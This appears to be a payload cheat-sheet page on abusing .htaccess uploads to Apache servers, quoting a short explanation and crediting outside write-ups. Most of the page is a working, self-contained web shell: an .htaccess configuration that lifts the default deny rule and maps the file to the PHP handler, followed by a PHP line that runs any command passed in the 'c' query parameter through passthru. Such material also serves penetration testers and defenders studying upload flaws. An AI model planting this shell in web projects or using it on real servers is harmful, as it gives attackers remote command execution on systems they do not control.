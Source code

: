 # .htaccess upload

Uploading an .htaccess file to override Apache rule and execute PHP.
"Hackers can also use “.htaccess” file tricks to upload a malicious file with any extension and execute it. For a simple example, imagine uploading to the vulnerabler server an .htaccess file that has AddType application/x-httpd-php .htaccess configuration and also contains PHP shellcode. Because of the malicious .htaccess file, the web server considers the .htaccess file as an executable php file and executes its malicious PHP shellcode. One thing to note: .htaccess configurations are applicable only for the same directory and sub-directories where the .htaccess file is uploaded."

Self contained .htaccess web shell

```python
# Self contained .htaccess web shell - Part of the htshell project
# Written by Wireghoul - http://www.justanotherhacker.com

# Override default deny rule to make .htaccess file accessible over web
<Files ~ "^\.ht">
Order allow,deny
Allow from all
</Files>

# Make .htaccess file be interpreted as php file. This occur after apache has interpreted
# the apache directoves from the .htaccess file
AddType application/x-httpd-php .htaccess
```

```php
###### SHELL ######
<?php echo "\n";passthru($_GET['c']." 2>&1"); ?>
```

## Thanks to

* [ATTACKING WEBSERVERS VIA .HTACCESS - By Eldar Marcussen](http://www.justanotherhacker.com/2011/05/htaccess-based-attacks.html)
* [](https://blog.qualys.com/securitylabs/2015/10/22/unrestricted-file-upload-vulnerability)
